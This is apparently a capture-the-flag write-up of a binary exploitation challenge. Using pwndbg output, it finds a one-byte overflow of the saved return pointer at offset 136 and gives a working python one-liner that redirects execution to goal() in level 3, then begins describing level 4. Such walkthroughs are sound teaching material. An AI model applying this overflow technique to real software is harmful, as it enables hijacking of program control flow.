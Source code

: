 ```

   0x8048600 <main>           lea    ecx, dword ptr [esp + 4]
   0x8048604 <main+4>         and    esp, 0xfffffff0
   0x8048607 <main+7>         push   dword ptr [ecx - 4]
   0x804860a <main+10>        push   ebp
   0x804860b <main+11>        mov    ebp, esp
   0x804860d <main+13>        push   ecx
─────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────
00:0000│ esp  0xffe64620 —▸ 0xffe64634 ◂— 0x0
01:0004│      0xffe64624 ◂— 0x1
02:0008│      0xffe64628 ◂— 0x89
03:000c│      0xffe6462c —▸ 0xf77375a0 (_IO_2_1_stdin_) ◂— 0xfbad2088
04:0010│      0xffe64630 ◂— 0x3
05:0014│ eax  0xffe64634 ◂— 0x0
06:0018│      0xffe64638 —▸ 0xf7770000 (_GLOBAL_OFFSET_TABLE_) ◂— 0x23f3c
07:001c│      0xffe6463c —▸ 0x80482cc ◂— jae    0x8048337 /* 'signal' */
───────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────
 ► f 0  80485f5 interact+58
   f 1  8048623 main+35
   f 2 f759d637 __libc_start_main+247
Breakpoint *0x80485f5
pwndbg> retaddr
0xffe646bc —▸ 0x8048623 (main+35) ◂— sub    esp, 0xc
0xffe6474c —▸ 0x80484e1 (_start+33) ◂— hlt
pwndbg> p/d 0xffe646bc - 0xffe64634
$1 = 136
pwndbg> p/d 0x89
$2 = 137
```

`fread()` will read up to 137 bytes into a buffer. The saved return ponter is at offset 136, which means we can overwrite the least significant byte of the saved return pointer. 

The current return address is at 0x8048623. The address of `goal()` is 0x804862d. So if we overwrite the last byte with 0x2d we win. 

```
# python -c 'print "A"*136 + "\x2d"' | ./level3
----- LEVEL 3 -----
Just a simple question...what is your favorite spell? Any overwrite is a bad overwrite! Level 3 complete.
----- LEVEL 4 -----
Choose an action: Hey traveler, what is your name? Invalid action -355028
Thanks for playing�Ho�Ъp�$n�!
```

#### Level 4

Things are getting interesting at this point. We're prompted for an action and a name. The action is checked against a jump table with 100 different actions. The name is obtained from `get_name()` and can be 127 bytes long. 
